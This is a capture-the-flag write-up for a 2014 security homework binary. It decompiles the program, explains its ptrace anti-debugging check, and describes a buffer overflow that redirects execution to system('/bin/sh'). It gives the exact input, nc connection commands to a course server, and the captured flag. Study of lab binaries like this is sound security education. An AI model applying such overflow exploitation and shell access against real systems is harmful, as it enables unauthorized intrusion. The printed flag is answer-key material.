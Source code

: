 ```yaml
---
title: oc Writeup
category: memo
slug: oc-writeup
date: 2014-10-03
---
```

Security Programming Homework 1-3

Using IDA Pro's impressive F5 decompilation, we discover sub\_80485D7() is the
most interesting part

```c
......
v6 = ptrace(0, 0, 1, 0);
......
if ( a1 != 14 )
{
    if ( a1 != 12 )
    {
        dword_804A044 = loc_8048707;
        src = loc_8048720;
        v4 = strlen(*(const char **)(a2 + 28));
        strncpy(dest, *(const char **)(a2 + 28), v4);
        if ( v6 >= 0 )
            memcpy(dword_804A044, src, src - dword_804A044);
    }
    puts("uhhh....it's something wrong.");
    exit(0);
}
system("/bin/sh");
return 0;
......
```

The program will copy the character(s) after 7th (including #7) character of a2
to dest. But dest is not used anymore (suspicious). Just keep in mind.

According to the text file (linux-anti-debugging.txt) from the hint

```c
int main()
{
    if (ptrace(PTRACE_TRACEME, 0, 1, 0) < 0) {
        printf("DEBUGGING... Bye\n");
        return 1;
    }
    printf("Hello\n");
    return 0;
}
```

`ptrace()` will return positive integer while the exectuable is not being
debugged. So the program oc will show "The flag is Support for universal
suffrage in Hong Kong just kidding. :p" while not being debugged and show
"uhhh....it's something wrong." while being debugged.

Because dest can only contain 16 char, more than 16 char being copied to dest
will cause the variable, src, being overwritten

```nasm
0804A048    ; char dest[16]
0804A048    dest        db 10h dup(?)
0804A058    ; void *src
0804A058    src         dd ?
```

So our objective is to jump to 0x08048731, i.e. `system("/bin/sh")`. By
observation, we only need to overwritten 0x31. 0x31 is actually ASCII "1". In
conclusion, we need 7 candidates as input, and the 7th candidate must be length
of 17, the last character must be "1"

## Exploitation

1. `nc 140.113.208.235 10002`
1. input `1 1 1 1 1 1 11111111111111111`
1. got shell
1. `cat flag`

## Capture The Flag

The flag is `SECPROC{0ccupy_C3ntr4l_w1th_L0v3_4nd_P34c3}`
